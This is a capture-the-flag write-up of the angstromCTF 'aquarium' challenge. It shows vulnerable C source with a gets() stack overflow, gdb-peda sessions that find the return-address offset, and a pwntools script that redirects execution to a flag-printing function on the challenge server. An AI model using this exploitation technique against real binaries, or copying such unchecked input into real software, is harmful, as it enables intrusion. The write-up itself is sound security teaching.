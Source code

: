 ## angstromCTF: aquarium
> Here's a nice little program that helps you manage your fish tank.

##### *tl;dr: buffer overflow to change control flow*
#### The pwn challenges for this ctf are 64-bit, which I've never worked with and understood before, thus lead me to learning some new stuff to be used in the upcoming ctfs. It's important to note that we are given the source codes for the binaries, which makes it somewhat easier to understand the control flow and spot the vulnerability. 
##### aquarium.c
```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

void flag() {
	system("/bin/cat flag.txt");
}

struct fish_tank {
	char name[50];
	int fish;
	int fish_size;
	int water;
	int width;
	int length;
	int height;
};


struct fish_tank create_aquarium() {
	struct fish_tank tank;

	printf("Enter the number of fish in your fish tank: ");
	scanf("%d", &tank.fish);
	getchar();

	printf("Enter the size of the fish in your fish tank: ");
	scanf("%d", &tank.fish_size);
	getchar();

	printf("Enter the amount of water in your fish tank: ");
	scanf("%d", &tank.water);
	getchar();

	printf("Enter the width of your fish tank: ");
	scanf("%d", &tank.width);
	getchar();

	printf("Enter the length of your fish tank: ");
	scanf("%d", &tank.length);
	getchar();

	printf("Enter the height of your fish tank: ");
	scanf("%d", &tank.height);
	getchar();

	printf("Enter the name of your fish tank: ");
	char name[50];
	gets(name);

	strcpy(name, tank.name);
	return tank;
}

int main() {
	gid_t gid = getegid();
	setresgid(gid, gid, gid);

	struct fish_tank tank;

	tank = create_aquarium();

	if (tank.fish_size * tank.fish + tank.water > tank.width * tank.height * tank.length) {
		printf("Your fish tank has overflowed!\n");
		return 1;
	}

	printf("Nice fish tank you have there.\n");

	return 0;
}
```
#### Analyzing the source code, we see that we are given prompts for various variables for the struct. We also spot the vulnerable gets call on the last prompt, which we can use to perform a buffer overflow. Fire up gdb and do tests on the binary, we can input anything we want on the first few prompts, but we do want to perform the overflow on the prompt for the name.:
```
$ gdb ./aquarium
  gdb-peda$ pattern create 200
  'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'
  
  gdb-peda$ r
  Enter the number of fish in your fish tank: 1000
  Enter the size of the fish in your fish tank: 1000
  Enter the amount of water in your fish tank: 1000
  Enter the width of your fish tank: 1000
  Enter the length of your fish tank: 1000
  Enter the height of your fish tank: 1000
  Enter the name of your fish tank: AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA
  
  [...]
  RIP: 0x40138e (<create_aquarium+469>:	ret)
  => 0x40138e <create_aquarium+469>:	ret  
  Stopped reason: SIGSEGV
  0x000000000040138e in create_aquarium ()
```
#### Trying to input 200 bytes of random characters, we can be able to trigger the segfault error, but it seems that we don't have control of our rip register. But I have learned that we do have control over it, we just need to find at which offset we can do it. We do this by simply checking the content of the `rsp` register to get the offset then we proceed to verify our control.
```
gdb-peda$ x/wx $rsp
0x7fffffffdd78:	0x41417041

gdb-peda$ pattern offset 0x41417041
1094807617 found at offset: 152

gdb-peda$ r
  [...]
  Enter the name of your fish tank: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBB
  Stopped reason: SIGSEGV
  0x0000424242424242 in ?? ()
```
#### And yea, there we have it we can control program flow with offset 152. But where do we want to jump to now? We've seen a flag function in the code, and that's where we want to jump to - thus we need it's address:
```
gdb-peda$ p flag
$1 = {<text variable, no debug info>} 0x4011a6 <flag>
```
#### Then what we need for our exploit is complete, we now proceed to create our exploit script and run it against the server to get our flag.
##### exploit.py
```python
from pwn import *

#: Connect to challenge server
HOST = 'shell.actf.co'
PORT = 19305
p = remote(HOST,PORT)
# p = process('./aquarium')

#: Exploit code
offset = 'A' * 152
flag_addr = p64(0x4011a6)
exploit = offset + flag_addr

#: Send payload
for prompts in range(6):
	p.sendline('1000')

print(p.recvuntil('Enter the name of your fish tank: '))
p.sendline(exploit)
p.interactive()
```
#### We got our flag! 
`actf{overflowed_more_than_just_a_fish_tank}`
